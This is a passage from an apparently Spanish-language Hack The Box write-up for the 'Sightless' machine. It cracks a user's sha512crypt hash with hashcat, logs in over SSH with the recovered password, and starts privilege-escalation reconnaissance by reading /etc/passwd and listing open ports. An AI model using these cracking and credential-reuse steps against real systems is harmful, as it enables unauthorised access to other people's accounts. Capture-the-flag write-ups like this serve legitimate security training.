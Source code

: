 Encuentro el hash de la contraseña del usuario `michael`. El hash está en el formato `$6$salt$hash`, indicando el uso del algoritmo SHA-512 junto con `salt`.

```terminal
/home/kali/Documents/htb/machines/sightless:-$ echo '$6$mG3Cp2VPGY.FDE8u$KVWVIHzqTzhOSYkzJIpFc2EsgmqvPa.q2Z9bLUU6tlBWaEwuxCDEP9UFHIXNUcF2rBnsaFYuJa6DUh/pL2IJD/' > aa1hash.txt
```

Identifico el modo correcto de Hashcat para hashes de tipo sha512crypt (Unix).

```terminal
/home/kali/Documents/htb/machines/sightless:-$ hashcat --show aa1hash.txt
   # | Name                                            | Category
=====+=================================================+==============================
1800 | sha512crypt $6$, SHA512 (Unix)                  | Operating System
```
```terminal
/home/kali/Documents/htb/machines/sightless:-$ hashcat -m 1800 -a 0 aa1hash.txt /usr/share/wordlists/rockyou.txt
$6$mG3Cp2VPGY.FDE8u$KVWVIHzqTzhOSYkzJIpFc2EsgmqvPa.q2Z9bLUU6tlBWaEwuxCDEP9UFHIXNUcF2rBnsaFYuJa6DUh/pL2IJD/:insaneclownposse
```

Obtengo la contraseña `insaneclownposse` y la uso para conectarme al usuario `michael` mediante SSH en la máquina objetivo.

```terminal
/home/kali/Documents/htb/machines/sightless:-$ ssh michael@10.10.11.32
michael@10.10.11.32's password: insaneclownposse

michael@sightless:~$ cat user.txt
```

---
## Privilege Escalation

```terminal
michael@sightless:~$ cat /etc/passwd | grep /bash$
root:x:0:0:root:/root:/bin/bash
michael:x:1000:1000:michael:/home/michael:/bin/bash
john:x:1001:1001:,,,:/home/john:/bin/bash
```

Encuentro varios puertos funcionando, entre ellos el 8080 que puede estar corriendo un servicio.

```terminal
michael@sightless:~$ ss -tulnp
```

![](assets/img/htb-writeup-sightless/sightless2_1.png)
